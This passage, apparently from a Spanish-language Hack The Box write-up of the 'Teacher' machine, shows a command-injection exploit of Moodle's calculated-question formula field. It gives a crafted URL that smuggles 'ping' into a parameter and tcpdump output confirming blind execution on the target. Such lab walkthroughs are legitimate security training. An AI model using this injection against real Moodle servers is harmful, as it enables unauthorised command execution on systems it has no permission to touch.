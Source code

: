 ![](/assets/images/htb-teacher/teacher-rce.png)

Ahora le damos click en donde dice **Next page** y vemos que en la URL nos parece algo así:

 - http://10.10.10.153/moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7

De acuerdo con el valor del campo **Answer 1 formula =**, estamos parametrizando la variable **0**. Si ponemos al final de la URL *&0=whoami* no nos va a resultar debido a que no tenemos donde visualizar el resultado del comando; así que nos vamos a tirar un `ping` a nuestra máquina de atacante y nos ponemos en escucha en nuestra interfaz con `tcpdump`, por lo que la uri quedaría:

 - http://10.10.10.153/moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7&0=ping%20-c%201%2010.10.14.24

```bash
❯ tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:32:04.402092 IP 10.10.10.153 > 10.10.14.24: ICMP echo request, id 3559, seq 1, length 64
21:32:04.402199 IP 10.10.14.24 > 10.10.10.153: ICMP echo reply, id 3559, seq 1, length 64
21:32:04.545135 IP 10.10.10.153 > 10.10.14.24: ICMP echo request, id 3561, seq 1, length 64
21:32:04.545169 IP 10.10.14.24 > 10.10.10.153: ICMP echo reply, id 3561, seq 1, length 64
^C
4 packets captured
4 packets received by filter
0 packets dropped by kernel
```
